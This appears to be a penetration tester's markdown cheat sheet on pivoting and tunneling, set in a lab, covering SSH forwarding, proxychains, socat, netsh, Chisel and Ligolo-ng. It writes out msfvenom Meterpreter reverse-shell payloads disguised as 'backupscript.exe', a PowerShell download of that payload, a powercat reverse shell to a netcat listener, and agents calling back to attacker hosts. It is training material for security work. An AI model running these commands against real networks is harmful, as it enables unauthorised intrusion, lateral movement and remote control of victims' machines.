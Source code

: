 ```yaml
---
layout: default
---
```


# Pivoting, Tunneling, and Port Forwarding
## SSH Local Port Forwarding
Forward port 3306 from 10.129.202.64 to localhost 1234
```
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

```
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### Enabling Dynamic Port Forwarding with SSH
```
$ ssh -D 9050 ubuntu@10.129.202.64
```

```
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```
$ proxychains nmap -v -sn 172.16.5.1-200
```

## Remote/Reverse Port Forwarding with SSH
```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```
ubuntu@pivot$ python3 -m http.server 8123
```

```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
## Socat Redirection with a Reverse Shell
```
ubuntu@pivot:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

## Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

## SOCKS5 Tunneling with Chisel
`Find PID to kill`
```
$ lsof -i:8080 
```

`Local Machine`
```
$ chisel server --socks5 --reverse`
```

`Remote machine`
```
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

## Pivoting
### [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)

`Proxy (Attack)`
```
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```


`Agent (Target)`
```
C:\Windows\system32> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

`Proxy (Attack)`
```
session

[Agent : ubuntu@WEB01] » ifconfig
```

```
[Agent : ubuntu@WEB01] » start
```


[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

After that, we can scan for live hosts on new network found.

`Proxy (Attack)`
```bash
nmap -sn 172.16.5.0/24
```
### Download and Upload files from and to Target
```bash
# Redirect 8080 on Agent machine to our Proxy 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Agent machine to our Proxy 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

#### Reverse Shell Pivot Machine to Attack Machine throught Agent
`Proxy (Attack)`
```
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```

```
$ nc -lnvp 10000
```

`Agent(Target)`
```
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

C:\Users\victor> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

### Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our local machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

**Download Agent to Pivot - Proxy (Attack)**
Open port to pass our http server

```
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

**Pivot New Target**
```
Download agent file from (Internal Pivot Machine Interface):8080
```

**Proxy (Attack)**
```
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec
```

```
[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

**Pivot New Target**
```
C:\Windows\system32> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

**Proxy (Attack)**
```
[Agent : session] » start --tun ligoloSec
```


### Forward Ports from Pivot Machine to Attack Machine
```
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```
$ nmap 240.0.0.1
```


